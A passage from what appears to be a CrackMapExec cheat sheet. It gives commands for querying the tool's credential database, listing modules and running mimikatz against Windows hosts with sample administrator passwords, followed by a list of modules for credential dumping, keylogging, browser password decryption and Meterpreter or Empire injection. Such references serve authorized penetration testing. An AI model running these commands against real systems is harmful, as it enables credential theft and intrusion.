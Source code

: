 ### List Credentials
```bash
cmedb> creds
```

### Credentials for Specific User
```bash
cmedb> creds <username>
```

### Use Stored Credentials
```bash
crackmapexec smb 192.168.100.1 -id <credsID>
```

## Modules

Leverage CME modules for advanced tasks.

### List Modules
```bash
crackmapexec smb -L
```

### Module Info
```bash
crackmapexec smb -M mimikatz --module-info
```

### Module Options
```bash
crackmapexec smb -M mimikatz --options
```

### Mimikatz Module
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -M mimikatz
crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

### Notable Modules
- `Get-ComputerDetails`: Enumerates system info.
- `bloodhound`: Runs BloodHound recon script.
- `empire_exec`: Executes Empire launcher.
- `enum_avproducts`: Lists endpoint protection solutions.
- `enum_chrome`: Decrypts Chrome passwords.
- `enum_dns`: Dumps DNS from AD server.
- `get_keystrokes`: Logs keystrokes.
- `get_netdomaincontroller`: Enumerates domain controllers.
- `get_netrdpsession`: Lists RDP sessions.
- `get_timedscreenshot`: Takes periodic screenshots.
- `gpp_autologin`: Finds autologon info.
- `gpp_password`: Retrieves Group Policy Preference passwords.
- `invoke_sessiongopher`: Extracts session info (PuTTY, RDP, etc.).
- `invoke_vnc`: Injects VNC client.
- `met_inject`: Injects Meterpreter.
- `mimikatz`: Dumps logon credentials.
- `rdp`: Enables/disables RDP.
- `web_delivery`: Executes Metasploit web delivery.
